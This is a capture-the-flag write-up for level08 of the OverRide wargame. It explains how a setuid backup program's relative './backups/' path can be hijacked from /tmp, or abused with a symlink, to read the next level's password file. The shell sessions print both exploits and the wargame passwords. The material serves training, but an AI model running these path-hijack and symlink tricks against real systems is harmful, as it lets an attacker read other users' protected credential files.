 # Hijacking relative path / Exploit symbolic link

```sh
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level08
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level08@192.168.56.101's password: 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

The program opens a file and creates its backup into `/home/users/level08/backups` by writing byte per byte.

The issue is that `./backups/` folder name is used as relative path. Relative path change depending on the working directory’s of the current location. So the relative path can be hijacked by changing working directory to `/tmp` and creating a new `./backups/` folder containing absolute path of `.pass` of `level09`.

Other way is to create a symbolic link to `/home/users/level09/.pass` and pass to as argument to the binary.

# Exploit
By creating new `./backups/` folder in `/tmp`
```sh
level08@OverRide:/tmp$ cd /tmp/
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
With symbolic link
```sh
level08@OverRide:~$ chmod +rwx .
level08@OverRide:~$ ln -s /home/users/level09/.pass pass
level08@OverRide:~$ ./level08 pass
level08@OverRide:~$ cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
